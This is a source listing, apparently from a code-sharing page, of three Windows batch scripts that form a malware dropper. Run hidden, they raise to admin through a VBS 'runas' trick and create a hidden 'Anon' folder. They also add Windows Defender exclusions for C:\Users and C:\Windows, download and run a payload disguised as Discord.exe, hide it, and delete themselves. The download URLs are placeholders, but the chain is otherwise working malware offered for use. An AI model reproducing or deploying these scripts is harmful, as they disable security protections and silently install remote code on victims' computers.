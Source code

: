 :---------------------------------------------------------------------------------------------------------------------------:


@echo off

powershell -window hidden -command ""

    IF "%PROCESSOR_ARCHITECTURE%" EQU "amd64" (
>nul 2>&1 "%SYSTEMROOT%\SysWOW64\cacls.exe" "%SYSTEMROOT%\SysWOW64\config\system"
) ELSE (
>nul 2>&1 "%SYSTEMROOT%\system32\cacls.exe" "%SYSTEMROOT%\system32\config\system"
)
if '%errorlevel%' NEQ '0' (
    goto UACPrompt
) else ( goto gotAdmin )
:UACPrompt
    echo Set UAC = CreateObject^("Shell.Application"^) > "%temp%\getadmin.vbs"
    set params= %*
    echo UAC.ShellExecute "cmd.exe", "/c ""%~s0"" %params:"=""%", "", "runas", 1 >> "%temp%\getadmin.vbs
    "%temp%\getadmin.vbs"
    del "%temp%\getadmin.vbs"
    exit /B
:gotAdmin
    pushd "%CD%"
    CD /D "%~dp0

cd "C:\Users\%USERNAME%\AppData\Local"
mkdir "Anon"
attrib +h "Anon" /s /d
cd C:\Users\%USERNAME%\AppData\Local\Anon" 
Powershell -Command "Invoke-Webrequest '2 and 3 batch file.' -OutFile 1.zip"
tar -xf 1.zip
del 1.zip

start C:\Users\%USERNAME%\AppData\Local\Anon\1.bat"


:---------------------------------------------------------------------------------------------------------------------------:


save the 2 other bat files below in a zip and call it 1.zip


:---------------------------------------------------------------------------------------------------------------------------:


@echo off

powershell -window hidden -command ""

powershell.exe -command "Add-MpPreference -ExclusionPath "C:\Users
powershell.exe -command "Add-MpPreference -ExclusionPath "C:\Windows

start C:\Users\%USERNAME%\AppData\Local\Anon\2.bat"

del "%~f0" & exit


:---------------------------------------------------------------------------------------------------------------------------:


@echo off

powershell -window hidden -command ""

Powershell -Command "Invoke-Webrequest 'exec link' -OutFile Discord.zip"
tar -xf Discord.zip
del Discord.zip
start Discord.exe
attrib +h "C:\Users\%USERNAME%\AppData\Local\Anon\Discord.exe" /s /d

del "%~f0" & exit


:---------------------------------------------------------------------------------------------------------------------------:
